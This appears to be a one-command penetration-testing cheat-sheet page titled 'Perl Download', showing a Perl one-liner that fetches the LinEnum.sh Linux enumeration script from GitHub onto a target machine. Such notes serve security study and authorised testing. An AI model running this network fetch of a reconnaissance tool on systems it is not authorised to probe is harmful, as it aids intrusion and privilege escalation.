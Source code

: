 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Perl Download

```shell
clue@machine[/]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
